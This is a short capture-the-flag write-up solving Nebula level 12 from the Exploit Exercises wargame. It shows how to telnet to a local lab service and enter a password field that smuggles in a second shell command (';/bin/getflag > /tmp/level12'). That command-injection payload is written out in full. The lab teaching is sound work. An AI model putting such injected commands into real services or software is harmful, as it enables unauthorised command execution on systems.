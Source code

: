 .. _nebula12:

.. role:: bash(code)
    :language: bash

Nebula 12
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level12/

Solution
--------

Execute :bash:`telnet` on localhost on port 50001

:bash:`$ telnet 127.0.0.1 50001`

When password is asked

:bash:`Password: 1;/bin/getflag > /tmp/level12;echo 1`

It will say better luck next time and it will close the connection

Then simply use cat the output file

:bash:`cat /tmp/level12`

In case you want to pass the hash it will be this way

:bash:`$ telnet 127.0.0.1 50001`

:bash:`Password: 4754a4f4bd5787accd33de887b9250a0691dd198;echo 1`

